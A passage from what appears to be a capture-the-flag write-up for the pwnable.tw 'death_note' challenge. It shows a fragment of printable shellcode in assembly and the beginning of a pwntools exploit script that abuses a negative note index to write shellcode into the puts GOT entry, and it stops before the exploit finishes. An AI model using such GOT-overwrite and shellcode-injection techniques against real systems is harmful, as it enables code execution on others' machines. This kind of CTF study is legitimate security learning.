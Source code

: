 ```c
	dec %edi
	dec %edi
	dec %edi
	dec %edi
	dec %edi
	dec %edi
	dec %edi
	dec %edi
	dec %edi
	dec %edi
	dec %edi
	dec %edi
	dec %edi
	dec %edi
	dec %edi
	dec %edi
	dec %edi
	dec %edi
	dec %edi
	dec %edi
	dec %edi
	dec %edi
```

And the pwn script is fairly straightforward:

```python

#!/usr/bin/env python3

from pwn import *

exe = ELF("./death_note")

context.binary = exe

def conn():
	if args.LOCAL:
		r = process([exe.path])
		gdb.attach(r,'''
		break is_printable
		continue
		''')
		if args.DEBUG:
			gdb.attach(r)
	else:
		r = remote("chall.pwnable.tw", 10201)

	return r


def main():
	r = conn()
	# good luck pwning :)
	with open("./shellcode-template/shellcode.bin", "rb") as shellcode_bin:
		shellcode = shellcode_bin.read()


	# add note w/shellcode into puts GOT entry
	r.sendline(b'1')
	r.recvuntil(b'Index :')
	r.sendline(b'-16')
	r.recvuntil(b'Name :')
	print("SENDING", shellcode)
```
